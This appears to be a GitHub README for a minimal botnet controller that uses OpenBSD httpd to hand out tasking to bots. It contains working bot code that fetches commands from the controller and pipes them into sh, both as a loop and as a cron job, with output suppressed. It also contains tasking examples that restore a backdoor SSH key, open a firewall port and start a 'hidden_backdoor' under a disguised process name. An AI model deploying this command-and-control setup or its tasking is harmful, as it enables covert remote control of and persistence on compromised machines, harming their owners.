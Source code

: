 [OpenBSD `httpd(8)`](https://man.openbsd.org/httpd.8) Botnet Controller
-----------------------------------------------------------------------------------
A cheesy botnet controller which uses
[OpenBSD's `httpd(8)`](https://man.openbsd.org/httpd.8) to do the
heavy lifting.

Meant to demonstrate what just a little code can do.

It consists of three parts:
1.  A shell script to watch `/var/www/logs/access.log` for the purposes of...
    1.  Noting when bots call back
    2.  Deleting picked-up tasking
2.  Another shell script to add a task for a bot
3.  This README, with [setup instructions](#Setup)

For legal use only.

Features
--------
- Fewer than 100 lines of code.
- Comms over HTTP(s).
- Integration with existing [`http.conf`](https://man.openbsd.org/httpd.conf.5) files.
- Deletion of tasks sent to bots.
- No command output which causes mental clutter.  Or any output at all.
- No new syntax to learn; everything is done with normal shell things.
- Possible but untested portability to HTTP servers on other OSs.
- [Tests](./t), and a very complex [Makefile](./Makefile) to run them.

Setup
-----
1.  Create a group for botnet operators.  Alternatively, don't and adjust the
    rest of the steps accordingly.
    ```sh
    doas groupadd botnet
    doas usermod -G botnet $(whoami)
    ```
    Logout and login so new group takes effect.  Use `id` to verify.  It should
    look something like
    ```
    uid=1000(you) gid=1000(you) groups=1000(you), 1001(botnet)
    ```
2.  Create a directory for storing and serving tasking
    ```sh
    doas mkdir -p /var/www/htdocs/httpd_botnet_controller
    doas chgrp botnet /var/www/htdocs/httpd_botnet_controller
    doas chmod g=rwx /var/www/htdocs/httpd_botnet_controller
    ```
    And make sure all went well by adding and removing a file.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/test &&
    rm -v /var/www/htdocs/httpd_botnet_controller/test
    ```
3.  Add a line in whatever chunk of
    [`httpd.conf`](https://man.openbsd.org/httpd.conf.5) will serve
    up our new tasking directory to serve an empty file instead of the default
    404 page if there's no tasking.
    ```
   	location not found match "/(httpd_botnet_controller)/.*" {
		request rewrite "/%1/_empty"
	}
    ```
    With the default config (i.e. the one from `/etc/examples/httpd.conf`) this
    will probably be in a `server {}` block
4.  Make the empty file to serve.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/_empty
    ```
5.  Clone this repository and start the controller going.  
    ```sh
    git clone https://github.com/magisterquis/httpd_botnet_controller.git
    cd httpd_botnet_controller
    make # To run tests, optional
    ./httpd_botnet_controller.sh
    ```
Everything's set up.  Head down to the [Bots](#Bots) section to get bots going.

Bots
----
Bot interactions are governed by the following principles.

1.  Each bot has its own ID consisting of letters, numebers, dots, and hyphens.
    Hostnames work pretty well.
2.  Tasking is retrieved via HTTP(S) requests to
    `/httpd_botnet_controller/$ID` which serve up files from 
    `/var/www/htdocs/httpd_botnet_controller/$ID`.  What the bot does with the
    tasking is the bot's own business.
3.  When `httpd(8)` logs that a bot has requested tasking, a file in
    `$HOME/bots` is touched and `/var/www/htdocs/httpd_botnet_controller/$ID`
    is deleted.  This is inherently racy; make sure bots don't request tasking
    too often.

### Bot Code

In practice, this works out to bots being a little script like
```sh
#!/bin/sh
SERVER=https://your_server
while :; do
    curl -s $SERVER/httpd_botnet_controller/$(hostname) | sh >/dev/null 2>&1 &
    sleep 600 
done
```
or maybe a cronjob like
```cron
~/10    *   *   *   *   curl -s $SERVER/httpd_botnet_controller/$(HOSTNAME) | sh >/dev/null 2>&1 &
```

Output is up to you.

### Bot List
IDs of bots which have called back are stored in `$HOME/bots`.  These can be
sorted and filtered and so on with the customary shell tools.

Tasking
-------
Tasking takes the form of files in `/var/www/htdocs/httpd_botnet_controller/`
with the name of the bots` IDs.

Instead of manually making files in `/var/www/htdocs/httpd_botnet_controller/`,
the script [`task_bot.sh`](./task_bot.sh) may be used.  It takes as its first
argument the ID for which to queue tasking and the remaining arguments are
appended to the tasking file as a single line.  If there's no other arguments
stdin is appended to the tasking file. 

This works out to something like either
```sh
./task_bot.sh bot_1 cat <~/.ssh/ak.bak >>~/.authorized_keys
```
to add back a backup backdoor key or
```sh
./task_bot.sh bot_2 <<_eof
bash <<<'
iptables -I INPUT -p tcp --dport 44444 -j ACCEPT
exec -a not_malware /root/.hidden_backdoor' >/dev/null 2>&1 &
_eof
```
to reopen a in the firewall and start expertly hidden malware.

Config
------
The following environment variables configure both scripts:

Name           | Default                          | Description
---------------|----------------------------------|------------
`CHECKIN_PATH` | `httpd_botnet_controller`        | URL Path used for checking-in, followed by `/$ID`
`HTTPDLOGFILE` | `/var/www/logs/access.log`       | `httpd(8)`'s logfile
`LAST_DIR`     | `$HOME/bots`                     | Directory in which bots' last check-ins are noted as empty files
`TAILFLAGS`    | `-f -n -0`                       | Flags used by [`tail(1)`](https://man.openbsd.org/tail.1) for watching `$HTTPDLOGFILE`
`TASKING_DIR`  | `/var/www/htdocs/$CHECKIN_PATH}` | Directory in which tasking lives
